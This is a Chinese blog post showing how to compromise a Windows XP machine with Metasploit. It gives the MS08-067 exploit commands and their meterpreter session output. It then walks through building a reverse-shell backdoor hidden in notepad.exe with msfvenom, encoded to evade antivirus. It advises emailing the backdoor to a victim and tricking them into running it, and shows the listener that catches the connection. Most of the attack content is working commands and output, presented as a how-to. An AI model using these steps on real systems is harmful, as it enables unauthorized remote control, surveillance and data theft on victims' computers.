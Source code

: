 ```yaml
---
layout: post
title: 使用Metasploit演示入侵Windows
---
```


我使用Kali Linux（192.168.0.112）；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。

使用漏洞入侵windows xp sp3。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 15-24-25.png)

选择一个漏洞：

{% highlight shell %}
msf > search platform: windows xp sp3 
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-17-46.png)

exploit/windows/smb/ms08_067_netapi是08年发现的漏洞，等级Great。

查看某个漏洞的详细信息。包含使用方法、支持的平台等等，非常有帮助：

{% highlight shell %}
msf > info exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-24-32.png)

依次执行如下命令：

{% highlight shell %}
msf > use exploit/windows/smb/ms08_067_netapi
> set payload windows/meterpreter/bind_tcp
> set RHOST 192.168.0.108  (设置目标主机IP地址)
> exploit
{% endhighlight %}

如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。

```
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
[*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (751104 bytes) to 192.168.0.108
[*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32

meterpreter >
```

现在你就可以控制目标主机了，截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。

****

## 演示使用后门程序侵入Windows

原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。

生成后门程序：

我把后门程序隐藏到记事本程序中：notepad.exe

查看Kali Linux的IP：ifconfig（192.168.0.112）

创建后门程序，my_backdoor.exe：

{% highlight shell %}
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 18-24-42.png)

上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。

把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

```
use exploit/multi/handler

set LHOST 192.168.0.112
set LPORT 4445
set payload windows/meterpreter/reverse_tcp
show options
exploit
```

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-01-13.png)

OK，入侵成功。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-08-43.png)

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)